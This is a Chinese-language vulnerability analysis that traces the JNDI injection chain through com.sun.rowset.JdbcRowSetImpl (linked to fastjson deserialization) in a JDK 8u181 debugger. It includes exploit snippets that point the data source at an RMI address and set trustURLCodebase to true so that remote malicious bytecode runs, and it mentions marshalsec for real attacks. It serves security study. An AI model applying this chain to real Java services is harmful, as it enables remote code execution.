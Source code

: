 ### com.sun.rowset.JdbcRowSetImpl
目前要进行jndi注入，需要满足两个条件，在受害者要存在以下代码，且uri可控
```java
String uri = "xxx";
Context ctx = new InitialContext();
ctx.lookup(uri);
```
`com.sun.rowset.jdbcRowSetImpl`，是fastjson反序列化漏洞触发jndi注入的一环
查看jdbcRowSetImpl，我们客户端这样写

```java
JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();//只是为了方便调用
JdbcRowSetImpl_inc.setDataSourceName("rmi://127.0.0.1:1099/aa");
JdbcRowSetImpl_inc.setAutoCommit(true);
```
运行起来报错是jndi unable connect，web服务也没有收到请求，客户端更不会执行恶意的字节码，
打断点调试，从而也进一步分析 
**jdk 版本8u181**
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_33_mp9ULzn7.png)

我们在`setAutoCommit(true)`处打断点，强制进入可以看见如下代码
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_33_F46VvHaw.png)

```java
// JdbcRowSetImpl.java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) { //不进入
        this.conn.setAutoCommit(var1);
    } else {
        this.conn = this.connect(); // 进入此处,进行连接
        this.conn.setAutoCommit(var1); // 设置autoCommit为true
    }

}
```
在这里我们会进行下一步连接，我们继续看，325，326 行不就是标准的jndi注入吗？ 存在`new InitialContext()`，且`lookup(this.getDataSourceName)`，DataSourceName在初始的时候是setDataSourceName的，该值我们也是可控的
```java
// JdbcRowSetImpl.java connect() 关键代码
private Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            InitialContext var1 = new InitialContext();
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName()); //强制进入lookup，查看无法执行的原因
            return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
        } catch (NamingException var3) {
            throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
        }
    } else {
        return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
    }
}
```
又回到最开始调试JNDI注入的lookup处，我们继续跟进，进入lookup
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_33_MIz9ajW8.png)

再次进入lookup
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_34_FZufbotv.png)

进入decodeObject
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_34_0jlLCtks.png)

走到这里发现居然抛出了错误，但是却看不见，这个错误也就是jdk8u181 的codebase错误，需要设置 `trustURLCodebase`为true
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_35_3tGoJ2SW.png)

可以看到没有调用NamingManager.getObjectInstance函数，直接异常捕获了
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_35_NDVcHBFq.png)

最后在这里直接close掉，所以并没有去获取到恶意字节码，就直接关闭连接了
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_35_GWb3ec5f.png)

为了避免这个尴尬局面，我在客户端设置属性 `System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");`再来尝试一下，
发现设置codebase为true之后，就可以下载恶意字节码，并实例化执行constructor函数，弹出计算器
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_36_DA0ImUix.png)

在实际渗透中，一般使用marshalsec启动rmi或者ldap
下载marshalsec,查看marshalsec.jndi.RMIRefServer 文件，启动参数即是 `codebase_url#classname port`  默认端口是1099
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_36_oOu3bTNg.png)

使用工具效果如下
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_36_RHk5UCOX.png)

